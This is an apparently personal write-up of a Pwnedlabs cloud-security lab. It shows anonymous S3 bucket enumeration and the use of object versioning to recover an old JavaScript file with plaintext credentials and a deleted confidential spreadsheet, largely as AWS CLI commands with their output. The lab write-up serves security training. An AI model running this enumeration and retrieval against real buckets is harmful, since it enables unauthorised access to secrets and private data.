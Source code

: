 ```yaml
---
author: Nithissh S
pubDatetime: 2025-03-05T15:22:00Z
modDatetime: 2025-03-05T07:12:47.400Z
title: Access secrets via s3 bucket versioning
slug: access-secrets-via-s3-bucket-versioning
featured: false
draft: false
tags:
  - CloudSec
  - AWS
  - s3
  - Pwnedlabs
description:
  In this lab, we will be solving an lab with an attack vector through a s3 bucket versioning feature and through that we can able to exfil the secrets and elevating further more 
---
```


### Scenario

Your team, renowned for its expertise in cloud security, has been enlisted by Huge Logistics to scrutinize their perimeter. Your main task? Investigate a specified IP range, noting that the address 16.171.123.169 is frequently mentioned in their public documentation. Unearth any potential security issues and provide a roadmap to bolster their defenses.

  

### Things provided in the lab 

|     |     |
| --- | --- |
| **Type** | **Value** |
| IP Address | 16.171.123.169<br> |

  

### Solution

With the IP provided in the lab objective `16.171.123.169` and opening it in a new browser, showcases kind of Login page out there and we don’t have any credentials handy in order to login actually 

  

![](../../assets/images/pwnedlabs/s3vers-1.png)  

  

But look into the source of the page, we can see that there is css content being loaded from the following s3 bucket `huge-logistics-dashboard` 

  

![](../../assets/images/pwnedlabs/s3vers-2.png)  

  

And now what we generally do?.. well we will enumerate it right and using `awscli` tool we can enumerate the s3 buckets with the following command: `aws s3 ls s3://<bucket_name> --no-sign-request` and remember utilising `--no-sign-request` meaning we don’t have setup any sort of credentials or anything.. kind of sending an unauthenticated request to a sensitive endpoint 

  

```sh
nits@FWS-CHE-LT-8869 % aws s3 ls s3://huge-logistics-dashboard --no-sign-request
PRE private/
PRE static/
```

  

Ok, we do have two different folders one is `private` and another one is `static` and by the name of it `private` folder we will definitely have something.. but in our case, nothing exists 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3 ls s3://huge-logistics-dashboard/private/ --no-sign-request
2023-08-16 23:55:59          0 
```

  

What happens if there are multiple version of objects exists and objects meaning an s3 bucket with a data.. and there is a concept called S3 bucket versioning.. 

  

You can ask what does it mean, let’s say your intern accidentally deleted a sensitive file from your s3 bucket and how will you recover.. where this comes in.. bucket versioning allows to have different versions of s3 bucket and in case something bad happens.. we can rollout to the previous version and data is restored 

  

We can check whether bucket versioning is enabled with the following command: `aws s3api get-bucket-versioning --bucket {BUCKET_NAME} --no-sign-request`⁠ but in our case, access is denied 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-bucket-versioning --bucket huge-logistics-dashboard  --no-sign-request

An error occurred (AccessDenied) when calling the GetBucketVersioning operation: Access Denied
```

  

But we do have access to return metadata of the s3 bucket versions using

`list-object-versions` and with the following command: `aws s3api list-object-versions --bucket huge-logistics-dashboard --no-sign-request`⁠ where will it show the changes happens in each file with versionId for each changes 

  

![](../../assets/images/pwnedlabs/s3vers-3.png)    

  

Going through the metadata and only metadata that his sensitive where i stumbled upon the changes related to file `static/js/auth.js` 

  

```json
{
            "ETag": "\"c3d04472943ae3d20730c1b81a3194d2\"",
            "Size": 244,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
            "IsLatest": true,
            "LastModified": "2023-08-12T20:43:43.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
}
```

  

Further more, we can run the following command to get more details about the `static/js/auth.js` file

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "static/js/auth.js" --version-id j2hElDSlveHRMaivuWldk8KSrC.vIONW --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "static/js/auth.js",
    "VersionIdMarker": "j2hElDSlveHRMaivuWldk8KSrC.vIONW",
    "Versions": [
        {
            "ETag": "\"7b63218cfe1da7f845bfc7ba96c2169f\"",
            "Size": 463,
            "StorageClass": "STANDARD",
            "Key": "static/js/auth.js",
            "VersionId": "qgWpDiIwY05TGdUvTnGJSH49frH_7.yh",
            "IsLatest": false,
            "LastModified": "2023-08-12T19:13:25.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
        }
```

  

Now we can copy the versionId and replace it inside the parameter called `versionId` through the browser and once after replacing it, we now able to see the older version of the js file which leaks the credential in plain text 

  

![](../../assets/images/pwnedlabs/s3vers-4.png)   

  

With those credentials, we can able to login into some kind of financial dashboard and there is some stats and metrics in the homepage 

  

![](../../assets/images/pwnedlabs/s3vers-5.png)  

  

But in the profile section, we can see that there some added AWS credentials as note over there 

  

![](../../assets/images/pwnedlabs/s3vers-6.png)  

  

After setting up credentials, we can see that this belongs to `data-user` 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws sts get-caller-identity --profile pwnedlabs-007
{
    "UserId": "AIDATWVWNKAVEJCVKW2CS",
    "Account": "254859366442",
    "Arn": "arn:aws:iam::254859366442:user/data-user"
}
```

  

One another thing, we missed his a particular entry from listing object version is there is an entry called `DeleteMarkers` which means there is file existed inside `/private` directory but it was removed or deleted 

  

```json
"DeleteMarkers": [
        {
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            },
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
            "IsLatest": true,
            "LastModified": "2023-08-16T19:12:39.000Z"
        }
    ],
```

  

Now we can redo the same for private folder just like we did for `auth.js` file for gathering the getting versionId of excel file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api list-object-versions --bucket huge-logistics-dashboard --key "private/Business Health - Board Meeting (Confidential).xlsx" --version-id whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR --no-sign-request
{
    "IsTruncated": false,
    "KeyMarker": "private/Business Health - Board Meeting (Confidential).xlsx",
    "VersionIdMarker": "whIGcxw1PmPE1Ch2uUwSWo3D5WbNrPIR",
    "Versions": [
        {
            "ETag": "\"24f3e7a035c28ef1f75d63a93b980770\"",
            "Size": 24119,
            "StorageClass": "STANDARD",
            "Key": "private/Business Health - Board Meeting (Confidential).xlsx",
            "VersionId": "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8",
            "IsLatest": false,
            "LastModified": "2023-08-16T19:11:03.000Z",
            "Owner": {
                "ID": "34c9998cfbce44a3b730744a4e1d2db81d242c328614a9147339214165210c56"
            }
        }
```

  

Now with the following command we can download the previous version of XLSX file which was deleted 

  

```sh
nits@FWS-CHE-LT-8869 ~ % aws s3api get-object \
    --bucket huge-logistics-dashboard \
    --key "private/Business Health - Board Meeting (Confidential).xlsx" \
    --version-id "HPnPmnGr_j6Prhg2K9X2Y.OcXxlO1xm8" \
    --profile pwnedlabs-007 \
    "Business_Health_Board_Meeting_Confidential.xlsx"
```

  

Now open the XLSX file where we can get our flag content and lab is solved 

  

![](../../assets/images/pwnedlabs/s3vers-7.png)   
